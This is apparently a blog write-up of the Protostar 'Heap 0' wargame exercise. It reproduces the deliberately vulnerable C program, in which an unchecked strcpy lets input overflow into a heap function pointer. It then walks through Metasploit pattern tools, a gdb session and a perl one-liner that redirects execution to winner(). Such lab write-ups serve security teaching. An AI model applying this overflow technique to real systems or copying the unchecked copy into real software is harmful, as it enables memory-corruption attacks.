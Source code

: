 ```yaml
---
title: "Exploit Exercises - Protostar Heap 0"
date: "2012-01-10T05:34:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
 - heap
---
```


Now that I've completed all of the Stack section of protostar, I've started to move onto Heap.  The first of these challenges, is [Heap 0](http://exploit-exercises.com/protostar/heap0).  

<!-- more -->

We are given the following code:

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
 char name[64];
};

struct fp {
 int (*fp)();
};

void winner()
{
 printf("level passed\n");
}

void nowinner()
{
 printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
 struct data *d;
 struct fp *f;

 d = malloc(sizeof(struct data));
 f = malloc(sizeof(struct fp));
 f->fp = nowinner;

 printf("data is at %p, fp is at %p\n", d, f);

 strcpy(d->name, argv[1]);

 f->fp();

}
```

I first needed to find the offset to where I could overwrite the EIP, so I connected to my other machine with the [Metasploit Framework](http://www.metasploit.com) installed, and generated a unique string.

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

I then used this string as the input to the heap0 executable.

```
user@protostar:/opt/protostar/bin$ gdb ./heap0 --quiet
Reading symbols from /home/user/heap0...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
Starting program: /home/user/heap0 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
data is at 0x804a008, fp is at 0x804a050

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) print winner
$1 = {void (void)} 0x8048464 <winner>
```

Notice that we see the EIP is 0x41346341.  Additionally while I was debugging, I also got the address of the "winner" function, since I will want to redirect to that later.  It was at 0x08048464. 

I then connected to my [Metasploit Framework](http://www.metasploit.com) enabled machine to calculate the offset. 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x41346341
72
```

I then simply used perl to create an argument for the heap0 executable with 72 "A"s for spacing, and passing the address of the "winner" function in little-endian format to it.  It then succeeded.

```
user@protostar:/opt/protostar/bin$ ./heap0 `perl -e 'print "A"x72 . "\x64\x84\x04\x08"'`
data is at 0x804a008, fp is at 0x804a050
level passed
```
